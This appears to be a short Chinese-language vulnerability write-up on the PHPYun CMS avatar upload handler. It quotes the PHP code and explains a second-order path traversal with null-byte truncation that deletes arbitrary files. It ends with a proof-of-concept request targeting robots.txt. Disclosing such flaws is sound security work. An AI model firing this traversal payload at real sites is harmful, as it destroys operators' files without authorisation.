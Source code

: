 ```php

        $d['data']['urls'][0] ="../".$new_avatar_path;

        $d['status'] = 1;

        $d['statusText'] = iconv("gbk","utf-8",'上傳成功!');

        $row = $this->obj->DB_select_once("friend_info","`uid`='".$this->uid."'");//查詢出來自己的資料

        if($type=="small")

        {

            $this->obj->unlink_pic($row['pic']);

            $this->obj->update_once("friend_info",array("pic"=>"../".$new_avatar_path),array("uid"=>$this->uid));

            $state_content = "我剛更換了新頭貼。<br><img src=\"".$this->config['sy_weburl']."/".$new_avatar_path."\">";

            $this->addstate($state_content);

            $this->obj->member_log("更換了新頭貼");

        }else{

            $this->obj->unlink_pic($row['pic_big']);//刪除圖片

            $this->obj->update_once("friend_info",array("pic_big"=>"../".$new_avatar_path),array("uid"=>$this->uid));//這裡把自己的圖片寫進資料庫

        }

        $msg = json_encode($d);

        echo $msg;

    }

```
<pre>
因為全局有轉義, 所以$new_avatar_path沒辦法截斷
$this->obj->update_once("friend_info",array("pic_big"=>"../".$new_avatar_path),array("uid"=>$this->uid)) 但是這裡有一個寫進資料庫。
寫進資料庫了 然後再把 $this->obj->unlink_pic($row['pic_big']);//刪除圖片
資料庫輸出出來的刪掉。所以我們可以再次截斷了。所以這個截斷也無視GPC啥的。
用phpyun的demo ...測試 首先註冊一個會員 然後請求
www....//friend/index.php?m=index&c=save_avatar&photoId=1.jpg&type=xxx/../../../robots.txt%00
</pre>
